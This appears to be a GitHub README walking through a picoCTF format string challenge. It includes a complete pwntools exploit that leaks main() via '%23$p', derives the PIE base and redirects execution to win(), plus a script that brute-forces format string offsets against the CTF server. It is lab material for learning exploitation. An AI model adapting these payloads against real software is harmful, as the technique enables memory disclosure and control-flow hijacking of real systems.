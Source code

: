# Format String Exploit – PIE + win() Hijack

This repository contains an exploit for a binary (`vuln`) that has a format string vulnerability. The goal is to leak the address of `main()`, calculate the base address of the PIE binary, and redirect execution to a hidden `win()` function.

---

## 🔍 Challenge Overview

- **Vulnerability:** Format string
- **Protection mechanisms:**
  - PIE: Enabled ✅
  - NX: Enabled ✅
  - RELRO: Full ✅
  - Stack Canary: Present ✅
  - Stripped: No ❌ (symbols are available)
- **Goal:** Call the `win()` function by leaking PIE base and sending the correct address when prompted.

---

## 🧠 Exploit Logic

1. **Leak main() address** using a format string payload like `%23$p`.
2. **Calculate PIE base** using the leaked address and ELF symbol offset of `main`.
3. **Resolve win() address** using `elf.symbols['win']`.
4. **Send win() address** when prompted for an input like `enter the address to jump to, ex => 0x12345`.
5. **Get shell / win condition.**

---

## 🧪 Tested On

- Python 3.x
- `pwntools` (`pip install pwntools`)
- Local and Remote CTF environments (e.g., picoCTF)

---

## 🧰 Exploit Code

```python
from pwn import *

# Set binary and context
elf = context.binary = ELF('./vuln')
context.log_level = 'debug'

# === Set LOCAL to True to test locally ===
LOCAL = True  # Set to False for remote

# Connect locally or remotely
if LOCAL:
    p = process(elf.path)
else:
    p = remote('rescued-float.picoctf.net', 60937)

# === Step 1: Leak address of main() using format string ===
p.sendline(b"%23$p")  # Change this offset if necessary for remote

# === Step 2: Receive leak ===
leaked = p.recvline()
log.info(f"Leaked PIE address line: {leaked}")

try:
    leaked_main = int(leaked.strip().split(b':')[-1], 16)
    log.success(f"Leaked main(): {hex(leaked_main)}")
except Exception as e:
    log.error(f"Could not parse leaked address: {e}")
    exit()

# === Step 3: Calculate PIE base and win() ===
log.info(f"elf.symbols['main'] = {hex(elf.symbols['main'])}")
elf.address = leaked_main - elf.symbols['main']
log.success(f"PIE base: {hex(elf.address)}")

win_addr = elf.symbols['win']
log.success(f"win() = {hex(win_addr)}")

# === Step 4: Wait for input prompt and send win() address ===
p.recvuntil(b"ex =>")
p.sendline(hex(win_addr).encode())  # Send as hex string

# === Step 5: Interactive shell ===
p.interactive()

```


## 🧠 Notes

* The offset `%23$p` may vary between local and remote. Use a brute-force script like below to find the correct one:

```python
from pwn import *

binary = context.binary = ELF('./vuln')
context.log_level = 'error'

REMOTE = True  # Set to True for remote
HOST = 'rescued-float.picoctf.net'
PORT = 60937

def leak_value(idx):
    if REMOTE:
        p = remote(HOST, PORT)
    else:
        p = process(binary.path)

    payload = f"%{idx}$p".encode()
    try:
        p.sendline(payload)
        p.recvuntil(b"Enter your name:")  # adjust if needed
        leaked = p.recvline(timeout=1).strip()
        p.close()
        return leaked
    except:
        p.close()
        return b''

# Step 1: Brute-force format string stack offset
for i in range(1, 50):
    leak = leak_value(i)
    if leak:
        print(f"[{i:02}] -> {leak}")
        # Highlight likely PIE addresses (usually start with 0x55 or 0x56)
        if leak.startswith((b'0x55', b'0x56', b'0x5f', b'0x60', b'0x61', b'0x62', b'0x63', b'0x64', b'0x65')):
            print(f"  [*] Possible PIE address at offset {i}: {leak.decode()}")

```

* The PIE base is computed using:

  ```bash
  pie_base = leaked_main - elf.symbols['main']
  ```


---

## ✅ Outcome

![result](./img/result.png)

---
